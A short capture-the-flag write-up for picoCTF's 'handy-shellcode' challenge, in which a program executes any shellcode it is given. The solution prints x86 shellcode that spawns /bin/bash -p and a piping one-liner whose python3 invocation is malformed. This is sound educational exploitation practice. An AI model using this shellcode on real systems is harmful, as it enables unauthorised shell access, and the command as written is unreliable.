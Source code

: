 # handy-shellcode
This [program](https://github.com/Xaplomian/DissimuloPicoCTFWriteUps/raw/master/Binary%20Exploitation/handy-shellcode/vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_4_037bd47611d842b565cfa1f378bfd8d9 on the shell server. [Source](vuln.c). (50 points)

# Hint
You might be able to find some good shellcode online.

# Solution
Shellcode is a series of opcodes that we can write into the stdin of a program, which it will hopefully execute. Using the shellcode from [here](http://shell-storm.org/shellcode/files/shellcode-606.php) `"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"`. We will then supply the cat command, to keep the stdin open. This is what the shellscript should look like:
```bash
(python3 print('\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'); cat) | ./vuln
```
